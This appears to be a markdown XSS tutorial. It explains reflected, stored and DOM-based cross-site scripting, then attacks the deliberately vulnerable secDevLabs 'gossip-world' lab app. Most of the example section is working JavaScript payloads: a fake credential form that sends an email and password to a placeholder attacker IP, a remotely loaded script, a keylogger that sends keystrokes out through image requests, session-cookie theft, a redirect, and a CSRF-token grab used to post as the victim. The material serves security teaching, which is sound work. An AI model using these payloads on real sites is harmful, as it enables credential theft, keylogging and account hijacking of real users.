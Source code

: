 An XSS (Cross-Site Scripting) vulnerability is a type of computer security vulnerability that allows an attacker to execute malicious code on a user's web page without the user's knowledge or consent. This vulnerability allows the attacker to steal personal information such as usernames, passwords and other sensitive data.

In essence, an XSS attack involves the insertion of malicious code into a vulnerable web page, which is then executed in the browser of the user accessing that page. The malicious code can be anything from scripts that redirect the user to another page, to scripts that log keystrokes or form data and send it to a remote server.

There are several types of XSS vulnerabilities, including the following:
- **Reflected**: This type of XSS occurs when data provided by the user is reflected in the HTTP response without being properly verified. This allows an attacker to inject malicious code into the response, which is then executed in the user's browser.
- **Stored**: This type of XSS occurs when an attacker is able to store malicious code in a database or on the web server hosting a vulnerable web page. This code is executed every time the page is loaded.
- **DOM-Based**: This type of XSS occurs when malicious code is executed in the user's browser through the DOM (Document Object Model). This occurs when JavaScript code on a web page modifies the DOM in a way that is vulnerable to malicious code injection.

XSS attacks can have serious consequences for businesses and individual users. For this reason, it is essential that web developers implement appropriate security measures to prevent XSS vulnerabilities. These measures can include validating input data, removing dangerous HTML code, and limiting JavaScript permissions in the user's browser.
# Example

----
> The example we are will be working on is: [secDevLabs](https://github.com/globocom/secDevLabs).
> For the installation we need to clone the .git repo and enter into secDevLabs > owasp-top10-2021-apps > a3 > gossip-world and run  **make install**.
> For the setup, we need to open a browser and visit **localhost:10007**, then create two users for testing.
----

We can test XSS typing the above code in new post:

```js
// This code will show a pop-up alert
<script>alert("XSS")</script>
```

We can also create a more complex html with a .js script, containing a form:

```js
<div id="formContainer"></div>

<script>
    var email;
    var password;
    var form = '<form>' +
        'Email: <input type="email" id="email" required>' +
        ' Contraseña: <input type="password" id="password" required>' +
        '<input type="button" onclick="submitForm()" value="Submit">' +
        '</form>';
  
    document.getElementById("formContainer").innerHTML = form;
  
    function submitForm() {
        email = document.getElementById("email").value;
        password = document.getElementById("password").value;
        fetch("http://{IP}/?email=" + email + "&password=" + password);
    }
</script>
```

----
> We can also run remote-stored scripts. Note that we don't need to put the 'script' label in the remote-accessed script, only in the web-uploaded one.
----

For running remote scripts we can serve a HTTP server with Python in our local machine and then access the wanted resource from the web:

```
python3 -m http.server 80
```

```js
<script src="http://{ATTACKER_IP}/test.js"></script>
```

Then, we can access remote source without the need of putting the 'script' label. For example, in the example below we will do an example about accessing a remote code that request an email and sent it to the Python HTTP server:

```js
var email = prompt("Por favor, introduce tu correo electrónico para visualizar el post", "example@example.com");

if (email == null || email == "") {
	alert("Es necesario introducir un correo electrónico válido para visualizar el post");
} else {
	fetch("http://{IP}/?email=" + email);
}
```

Another example here about making a keylogger:

```js
<script>
    var k = "";
    
    document.onkeypress = function(e) {
        // e does not work in every browser, for that reason we add the 'or' condition
        e = e || window.event;

        k += e.key;
        var i = new Image();
        i.src = "http://{IP}/" + k;
    };
</script>
```

We can also make a redirect to another web:

```js
<script>
    window.location.href = "https://{DOMAIN}";
</script>
```

If we check that **HttpOnly** is false in the session cookie, we can perform a **Session Hijacking** stoling this session cookie:

```js
<script>
    var request = new XMLHttpRequest();
    request.open('GET', 'http://{IP}/?cookie=' + document.cookie);
    request.send();
</script>
```

Finally, we can try to publish posts on behalf oh another user. This will have two steps:

```js
// First step: we need to get the victim's csrf_token
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
// withCredentials is set as true because we want to avoid the generation of new credentials in the next request
req1.withCredentials = true;
req1.send();
  
var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

// Second step: We can check in BurpSuite how requests are handled (data sent, request type and request header) and send the data signed with the other user token
var req2 = new XMLHttpRequest();
var data = "title=Hacked%20Title&subtitle=Hacked%20Subtitle&text=Get%20Hacked!&_csrf_token=" + token;
req2.open('POST', 'http://localhost:10007/newgossip', false);
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(data);
```
